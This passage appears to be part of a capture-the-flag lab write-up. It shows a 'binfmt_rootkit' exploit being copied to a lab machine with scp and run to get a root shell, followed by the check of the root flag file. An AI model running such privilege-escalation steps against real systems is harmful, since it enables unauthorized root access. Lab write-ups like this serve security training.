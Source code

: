 Transfer the exploit to the target.

```bash
$ scp -i dev binfmt_rootkit dev@10.129.129.78:/home/dev
binfmt_rootkit                                                                                                                                                                                             100% 2048   109.5KB/s   00:00
```

Invoke the exploit to elevate into a `root` shell. Grab the system flag from `/root/root.txt`.

```bash
dev@retired:~$ ./binfmt_rootkit
uid=0(root) euid=0(root)
# id
uid=0(root) gid=1001(dev) groups=1001(dev),33(www-data)
# ls -la /root/root.txt
-rw-r----- 1 root root 33 Apr 14 17:57 /root/root.txt
```
